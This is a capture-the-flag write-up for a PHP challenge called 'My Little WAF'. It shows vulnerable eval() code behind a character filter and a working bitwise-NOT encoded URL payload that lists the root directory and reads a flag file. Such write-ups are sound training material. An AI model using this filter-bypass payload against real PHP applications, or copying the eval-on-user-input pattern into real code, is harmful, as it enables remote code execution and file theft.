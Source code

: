 
## My Little WAF

**Description:** - <br>
**Target:** http://103.250.10.198:10001 <br>
**Category:** eval() execution, preg_match() bypass

## Steps
The site showed the index.php source code
```
<?php  
if (isset($_GET['cmd'])) {  
$cmd = $_GET['cmd'];  

	if(preg_match("/[a-z0-9\s_$`]/i", $cmd) || strlen($cmd) > 0x50) { 
		echo  "Blocked!"; 
	} else { 
		eval($cmd); 
	}
} else {
	highlight_file(__FILE__);
}
?>
```
From the source code and title, we know that the objective of this challenge is to leverage `eval()` in PHP to gain code execution. We will use `cmd` parameter at the end of the URL. The problem is that the preg_match function only allows certain characters.

However, we can use this php trick and construct a code execution, <br>
![image](https://user-images.githubusercontent.com/63649797/194979320-1b777497-ca15-4372-8f1f-af343e66894d.png) <br>
The tilde (~) here is a binary negation operator (two's complement arithmatic), which inverses all the bits of its operand. Image below may explains. <br>
![image](https://user-images.githubusercontent.com/63649797/195051287-d87323c7-75bb-43d7-82e8-e91a4e5e8828.png)

![image](https://user-images.githubusercontent.com/63649797/194879267-340b0876-276e-4bce-b047-c324fd31e82a.png) <br>
Hence, we can construct a code execution like above, which is the same as ``print_r(scandir(“/”));``
```
http://103.250.10.198:10001/?cmd=(~%8F%8D%96%91%8B%A0%8D)((~%8C%9C%9E%91%9B%96%8D)(~%D0))%3B
```
![image](https://user-images.githubusercontent.com/63649797/194879547-6bf17ebc-cb43-40fb-997e-643d22901851.png) <br>
Then we can do the same again for ``readfile(“/fl44gg”);``

```
Flag: Fostifest{REDACTED}
```

## References
https://stackoverflow.com/questions/9129744/whats-the-function-of-the-bitwise-operator-tilde

## Unanswered question
If both the url encoded and decoded contains alphanumeric, how did it bypass the preg_match?
